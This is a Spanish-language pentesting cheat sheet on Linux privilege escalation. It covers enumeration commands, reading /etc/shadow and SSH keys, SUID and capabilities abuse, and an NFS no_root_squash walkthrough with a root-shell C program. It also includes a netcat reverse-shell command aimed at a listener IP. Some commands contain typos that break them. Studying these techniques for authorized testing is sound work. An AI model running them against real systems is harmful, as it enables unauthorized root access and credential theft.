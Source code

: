 ## Enumeración básica

``` bash
*** ls -la a la raiz del sistema siempre ***
id # privilegios usuario actual (lxd o docker)
uname -a # información kernel
su - <user> # no perder las variables
lsb_release -a # enumerar info del S.O
env # para ver las variables del sistema
ss -tulpn # ver puertos/servicios internos que hay abiertos
netstat -a # muestra todos los puertos que estan en escucha y conectados
ps aux # procesos ejecutandose en el sistema de manera ordenada
cat /etc/login.defs | grep “ENCRYPT_METHOD” # ver que tipo de encriptación se utiliza en el sistema en los hashes de las passwords
hash-indentifier # para ver que tipo de encryptacion tiene el hash
hashid <hash>
ps -eo user,command # reporta todos los comandos que se están ejecutando en el sistema
watch -d 'ps -ef # Procesos a tiempo real como pspy64'
#shell
python3 -c 'import ptpy;pty.spawn("/bin/bash")'
python -c 'import ptpy;pty.spawn("/bin/bash")'
ps aux --sort="-%mem" |more # procesos ejecutanose
curl "http://192.168.1.2/login.php" --data-urlencode 'username=admin&password=pass123' # Enviar datos url encodeados 
php -r 'print urlencode("nc -e /bin/sh 192.168.218.147 5344");' ;echo # Encodear datos
```

### Abusando de grupos

- [lxd/lxc](https://j4ckie0x17.gitbook.io/notes-pentesting/escalada-de-privilegios/linux/abusando-grupo-lxd-lxc)

- [pcap](https://j4ckie0x17.gitbook.io/notes-pentesting/escalada-de-privilegios/linux/abusando-grupo-pcap)

## Comprobar rutas importantes


``` bash
# Rutas core
/etc/passwd | cut ":" -f 1
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/home/<user>/
/home/<user>/.ssh
/home/<user>/bash_history
# Comprobar que haya subdominios
/etc/nginx/sites-available
/etc/apache2/sites-available
```

### Enumeración automatizada

- LinPeas: [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

- Linux Smart Enumeration: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

- LinEnum: [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)


## Abuso permisos sudo

``` bash
sudo -l # comprobar que el usuario actual tiene capacidad de ejecutar un binario como root
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FmvX9l4BBwhij56cwtYtY%252Fimagen.png%3Falt%3Dmedia%26token%3D911accba-2f48-4531-b6e7-87466a56c75e&width=768&dpr=4&quality=100&sign=6cb66ffe5970351094f92961a9c95f60738488c2c4880b85f74a21d5761def41)

Si nos encontramos con env_keep+=LD_PRELOAD en el sudo -l podríamos hacer que cualquier programa utilice librerías compartidas, para saber como explotarlo accede a este [link](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)

## Abuso permisos SUID

``` bash
find / -perm -4000 2>/dev/null # enumerar privilegios SUID
find / -perm -4000 2>/dev/null | grep “etc” # enumerar por archivos que estenexi en la ruta /etc/
find / -perm -4000 -o- -perm -2000 -o- -perm -6000 # enumerar grupos
```

## Encontrar carpetas/archivos que podemos escribir


``` bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u # directorios
find / -writable 2>/dev/null | grep -v -i -E 'proc|run|sys|dev' # archivos
```

## Enumerar tareas en proceso (cronjob)

``` bash
cat /etc/crontab o crontab -l
cat /var/spool/cron # para las cronjobs del sistema
cat /etc/anacron
systemctl list-timers # ver tareas que se van a ejecutar en los proximos minutos
```

### Monitorizador comandos script bash

``` bash
#!/bin/bash
old_process=$(ps -eo user,command)
while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
        old_process=$new_process
done
```

## Abuso Capabilites

``` bash
getcap -r / 2>/dev/null # de forma recursiva ver las capabilities que hayan definidas en el sistema
setcap -r <ruta> # quitar capabilty
setcap cap_setuid+ep <ruta del archivo> # asignar SUID permisios a la ruta
```

## Bypass restricted bash


``` bash
ssh user@ip bash # y después realizamos el tratamiento de la TTY
ssh user@ip 'bash --norc --noprofile'
```

## NFS

NFS (Network File System) es un protocolo de red utilizado para compartir sistemas de archivos entre computadoras. En el contexto de la escalada de privilegios en Linux, NFS puede ser utilizado como una técnica para obtener acceso a archivos o directorios que no son accesibles por defecto para un usuario sin privilegios.

Y se encuentra en este archivo:

``` bash
/etc/exports
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fl1fXjFHQP55lXPnocFuR%252Fimagen.png%3Falt%3Dmedia%26token%3D7a51ba38-5067-444e-9a5d-06877c9c97b8&width=768&dpr=4&quality=100&sign=c15bd4d657ad9ccb963bc959bd16549948a4ccf50fa8233fc3373029468be1c4)

El elemento crítico para este vector de escalada de privilegios es la opción "no_root_squash" que puede ver arriba. De forma predeterminada, NFS cambiará el usuario raíz a nfsnobody y eliminará cualquier archivo para que no funcione con privilegios de raíz. Si la opción "no_root_squash" está presente en un recurso compartido grabable, podemos crear un ejecutable con el conjunto de bits SUID y ejecutarlo en el sistema de destino.

Primero tenemos que enumerar los recursos compartidos montables de la máquina victima:

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FjDUVGqE8KvN7IZUsExvR%252Fimagen.png%3Falt%3Dmedia%26token%3Dbc38b2eb-e69a-4f50-a53c-fd4fef73bfa8&width=768&dpr=4&quality=100&sign=52678f29251f4916884580faea324db856ad289071b5d238bbd405f4bea68471)

Montaremos un recurso compartido "no_root_squash" en nuestra máquina local

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FFdUXoLfjz6IQgPjmnGND%252Fimagen.png%3Falt%3Dmedia%26token%3D92297b52-d145-4bdd-8a07-522736f71f51&width=768&dpr=4&quality=100&sign=c0313f43f2eda927dc020ccce7bc357859209bdac901a7b140367cd65eb5dbc0)

Creamos un script con C con una /bin/bash y que nos de root cuando se ejecute en la victima


``` bash
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Lo compilamos y le damos permisos SUID

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252F8V6t3iClp332K10qdGIf%252Fimagen.png%3Falt%3Dmedia%26token%3Dd250d589-cdfb-4ce2-8702-b46f783f78a1&width=768&dpr=4&quality=100&sign=df97bc0e3b5e6c03a7a23a25552b7f0b875d93c09e1a9e254912b76dcfbc9563)

No hace falta transferirlos por qué ya está en la máquina victima ya que hemos estado trabajando en ella mediante un recurso compartido.

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FwryJBgnXkQGYibiqyO4r%252Fimagen.png%3Falt%3Dmedia%26token%3D938aab09-bf93-487b-a872-b2ce64fbcf63&width=768&dpr=4&quality=100&sign=532d8c89d1fdb50c26b2936655e026dcc08d27bc0a607739fe0da6336cf40fc8)

Lo ejecutamos y somos root

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FzK261O2yZrUKcsKj9CSV%252Fimagen.png%3Falt%3Dmedia%26token%3D6cde92a9-5831-4cff-8545-c1056488994b&width=300&dpr=4&quality=100&sign=f9410a7fa0ef3e982394f81c1ecbde73bf1d5ec3368b43fb7abe42446593b6b3)

## Kernel exploits

```
uname -a
lsb_release -a
```

### Consejos

1. Se muy especifico a la hora de buscar la version del kernel en exploitdb,google o searchsploit.

2. Entiende muy bien el exploit antes de ejecutarlo, a veces se tienen que modificar.

3. Puede que el script se tenga que interactuar en el futuro así que cuidado.

4. Para traspasar el exploit a la máquina victima, como siempre la carpeta /tmp y en tu máquina abres un servidor `python3 -m http.server 9000`


Si creemos que puede que el sistema comprometido es vulnerable de kernel, como un script que no sea de ese mismo kernel lo ejecutemos en el sistema puede romperlo.

Para asegurarnos tenemos [LES (Linux Exploit Suggester)](Linux%20Exploit%20Suggester)) que nos ayudará a saber cual es el CVE correcto para ejecutar.

## Analizar archivos

``` bash
ltrace <archivo> # se utiliza para rastrear las llamadas a funciones bibliotecarias que hace un programa en tiempo de ejecución.
strings <archivo> #  busca en un archivo binario (como un archivo ejecutable o una biblioteca compartida)
```
